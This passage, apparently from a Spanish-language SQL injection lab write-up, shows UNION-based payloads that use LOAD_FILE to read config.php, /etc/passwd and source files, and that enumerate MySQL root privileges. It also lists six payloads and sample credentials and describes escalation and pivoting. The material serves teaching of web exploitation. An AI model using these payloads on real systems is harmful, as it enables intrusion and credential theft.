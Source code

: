 
---

### 3.3. Leer `config.php` para obtener credenciales

```sql
' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
```

**Explicación:**

Este archivo suele contener las **credenciales de conexión a MySQL**, como:

```php
$db_user = "root";
$db_pass = "toor123";
```

Esto te permite conectarte directamente a la base de datos desde consola o herramientas como `sqlmap`.

## Resumen de payloads usados

```sql
1. ' UNION SELECT 1,2,3,4-- -
2. ' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
3. ' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
4. ' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
5. ' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
6. ' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
```


---

## Conclusión

Este tipo de explotación SQLi permite:

- Confirmar la vulnerabilidad.
    
- Enumerar privilegios y configuraciones internas.
    
- Robar archivos del sistema.
    
- Escalar a control completo de la base de datos.
    

Una vez que obtienes credenciales, puedes avanzar hacia una **conexión directa**, pivotar o buscar vulnerabilidades adicionales.

---
